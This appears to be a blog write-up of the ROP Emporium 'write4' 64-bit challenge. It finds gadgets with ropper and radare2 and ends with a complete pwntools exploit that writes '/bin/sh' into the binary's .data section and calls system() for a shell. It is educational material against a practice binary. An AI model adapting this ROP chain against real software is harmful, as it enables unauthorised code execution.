

ROPEmporium: 3-Write4 (64-bit)
Moving on to the 4th instalment of this series with Write4
Continuing on the series of ROPEmporium, lets do number 3 “Write4”.
Description
On completing our usual checks for interesting strings and symbols in this binary we’re confronted with the stark truth that our favourite string “/bin/cat flag.txt” is not present this time. Although you’ll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we’ll stick to the challenge goal which is learning how to get data into the target process’s virtual address space via the magic of ROP.
Setup
There’s really nothing different from the other posts we’ve done so far. Download and unzip.
root@linux:~/write4# wget https://ropemporium.com/binary/write4.zip
root@linux:~/write4# unzip write4.zip
root@linux:~/write4# ls
flag.txt write4 write4.zip
root@linux:~/write4# file write4
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ab37f80904704258fda5656af18246786632b560, not stripped
root@linux:~# checksec write4
[*] '/root/Documents/courses/ropemporium/3-write4/write4'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)
As per usual, the binary is not stripped (Hint: none of them are!). Nothing that’s really not out of the ordinary, lets execute the binary to see the input/output.
write4 by ROP Emporium
64bits
Go ahead and give me the string already!
> securitybits.io
Exiting
Again nothing out of the ordinary, lets toss it into radare2 and have a look at the symbols.
Radare2 Reversing
Running radare2 with the triple A flag cuts down the time and analyzes the file immediately.
root@linux:~# r2 write4 -AAA
[Cannot analyze at 0x00400640g with sym. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[... snip ...]
[x] Enable constraint types analysis for variables
-- Experts agree, security holes suck, and we fixed some of them!
[0x00400650]> afl
0x00400650 1 41 entry0
0x00400610 1 6 sym.imp.__libc_start_main
0x00400680 4 50 -> 41 sym.deregister_tm_clones
0x004006c0 4 58 -> 55 sym.register_tm_clones
0x00400700 3 28 entry.fini0
0x00400720 4 38 -> 35 entry.init0
0x004007b5 1 82 sym.pwnme
0x00400600 1 6 sym.imp.memset
0x004005d0 1 6 sym.imp.puts
0x004005f0 1 6 sym.imp.printf
0x00400620 1 6 sym.imp.fgets
0x00400807 1 17 sym.usefulFunction
0x004005e0 1 6 sym.imp.system
0x004008a0 1 2 sym.__libc_csu_fini
0x004008a4 1 9 sym._fini
0x00400830 4 101 sym.__libc_csu_init
0x00400746 1 111 main
0x00400630 1 6 sym.imp.setvbuf
0x004005a0 3 26 sym._init
[0x00400650]>
Checking the sym.usefulFunction reveals that there’s a systemcall, but it calls /bin/ls. So the goal is to write /bin/sh\x00 somewhere in the binary, and use the system() to execute the string.

Finding a home for our string should be fairly trivial, as we should be able to put it into the .data section of the binary_._ As we can clearly see the perms on .data is -rw- (read/write).
[0x00400650]> iS
[Sections]
Nm Paddr Size Vaddr Memsz Perms Name
00 0x00000000 0 0x00000000 0 ----
01 0x00000238 28 0x00400238 28 -r-- .interp
[... snip ...]
24 0x00001000 80 0x00601000 80 -rw- .got.plt
25 0x00001050 16 0x00601050 16 -rw- .data
26 0x00001060 0 0x00601060 48 -rw- .bss
[... snip ...]
30 0x00001800 738 0x00000000 738 ---- .strtab
[0x00400650]>
Findings Gadgets
So to summarize:
- Finding write primitive to write string to .data section
- system address
- pop_rdi (In order to put the /bin/sh string in a register)
Fortunately, we have ropper!
pop_rdi
root@linux:~# ropper -f write4 --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi
[INFO] File: write4
0x0000000000400893: pop rdi; ret;
System()
According to the afl output, pointing at sym.imp.system. It’s located at 0x004005e0 so lets use that address.
Write primitive
Now in order to be able to write to the .data, we need find a mov gadget reading and writing from addresses we control. And pop gadgets to populate the registers.
root@linux:~# ropper -f write4 --search "mov|pop"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop
[INFO] File: write4
0x0000000000400821: mov dword ptr [rsi], edi; ret;
0x00000000004007ae: mov eax, 0; pop rbp; ret;
0x00000000004005b1: mov eax, dword ptr [rax]; add byte ptr [rax], al; add rsp, 8; ret;
0x00000000004005a5: mov eax, dword ptr [rip + 0x200a4d]; test rax, rax; je 0x5b5; call 0x640; add rsp, 8; ret;
0x000000000040073c: mov ebp, esp; call rax;
0x0000000000400809: mov ebp, esp; mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004007a4: mov edi, 0x4008d7; call 0x5d0; mov eax, 0; pop rbp; ret;
0x000000000040080b: mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004006a0: mov edi, 0x601060; jmp rax;
0x00000000004007fd: mov edi, eax; call 0x620; nop; leave; ret;
0x0000000000400820: mov qword ptr [r14], r15; ret;
0x00000000004005a4: mov rax, qword ptr [rip + 0x200a4d]; test rax, rax; je 0x5b5; call 0x640; add rsp, 8; ret;
0x000000000040073b: mov rbp, rsp; call rax;
0x0000000000400808: mov rbp, rsp; mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004007fc: mov rdi, rax; call 0x620; nop; leave; ret;
0x000000000040088c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040088e: pop r13; pop r14; pop r15; ret;
0x0000000000400890: pop r14; pop r15; ret;
0x0000000000400892: pop r15; ret;
0x000000000040069f: pop rbp; mov edi, 0x601060; jmp rax;
0x000000000040088b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040088f: pop rbp; pop r14; pop r15; ret;
0x00000000004006b0: pop rbp; ret;
0x0000000000400893: pop rdi; ret;
0x0000000000400891: pop rsi; pop r15; ret;
0x000000000040088d: pop rsp; pop r13; pop r14; pop r15; ret;
The gadget at 0x00400820 looks simple enough, mov qword ptr [r14], r15; ret; a simple mov to_ptr, from_ptr then return. There is also a gadget at 0x00400890 which pops both registers from the stack! This will in turn give us control over the to and from registers.
In the spirit of good exploit development lets put hat into a function which takes a piece of data, and an address to write it to!
def arbitrary_write(address, data):
#0x400890: pop r14; pop r15; ret;
#0x400820: mov qword ptr [r14], r15; ret;
# pop reg
# mov to_reg, from_reg
# address > data > pop r14; pop r15; mov
pop_regs = 0x400890
mov_regs = 0x400820
rop = p64(pop_regs)
rop += p64(address)
rop += data
rop += p64(mov_regs)
return rop
Putting it all together
Now I wont bore you with creating a template or finding the overflow offset, as that can be found in the earlier blog posts. Constructing the ROP Chain will look something like the following:
[junk] + arbitrary_write(.data, "/bin/sh\x00") + [pop_rdi] + [.data] + [system]
Final exploit
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/12/03/ropemporium-3-write4-64-bit/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
exe = context.binary = ELF('write4')
host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)
def local(argv=[], *a, **kw):
'''Execute the target binary locally'''
if args.GDB:
return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
else:
return process([exe.path] + argv, *a, **kw)
def remote(argv=[], *a, **kw):
'''Connect to the process on the remote host'''
io = connect(host, port)
if args.GDB:
gdb.attach(io, gdbscript=gdbscript)
return io
def start(argv=[], *a, **kw):
'''Start the exploit against the target.'''
if args.LOCAL:
return local(argv, *a, **kw)
else:
return remote(argv, *a, **kw)
gdbscript = '''
break *0x{exe.symbols.main:x}
break *0x400890
break *0x400807
continue
'''.format(**locals())
def arbitrary_write(address, data):
#0x400890: pop r14; pop r15; ret;
#0x400820: mov qword ptr [r14], r15; ret;
# pop reg
# mov to_reg, from_reg
# address > data > pop r14; pop r15; mov
pop_regs = 0x400890
mov_regs = 0x400820
rop = p64(pop_regs)
rop += p64(address)
rop += data
rop += p64(mov_regs)
return rop
# [0x00400650]> iS
# Nm Paddr Size Vaddr Memsz Perms Name
# 25 0x00001050 16 0x00601050 16 -rw- .data
#0x400893: pop rdi; ret;
system = 0x4005e0
data_segment = 0x601050
pop_rdi = 0x400893
junk = 'A'*40
payload = junk
payload += arbitrary_write(data_segment,"/bin/sh\x00")
payload += p64(pop_rdi)
payload += p64(data_segment)
payload += p64(system)
io = start()
io.recvuntil('> ')
io.sendline(payload)
io.interactive()
